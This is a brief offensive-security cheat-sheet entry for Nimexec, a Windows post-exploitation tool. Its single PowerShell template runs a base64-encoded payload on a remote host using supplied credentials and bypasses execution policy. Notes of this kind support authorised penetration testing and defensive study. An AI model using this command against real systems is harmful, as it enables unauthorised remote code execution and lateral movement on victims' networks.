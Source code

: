 # Nimexec.exe
% windows, network

#plateform/windows #target/remote #cat/POSTEXPLOIT

## Remote - Exec command
```powershell
NimExec -u <user> -d <domain_fqdn> -p <password> -t <ip> -c "cmd.exe /c powershell - -exec bypass -nop -e <b64enc_payload>" -v
```
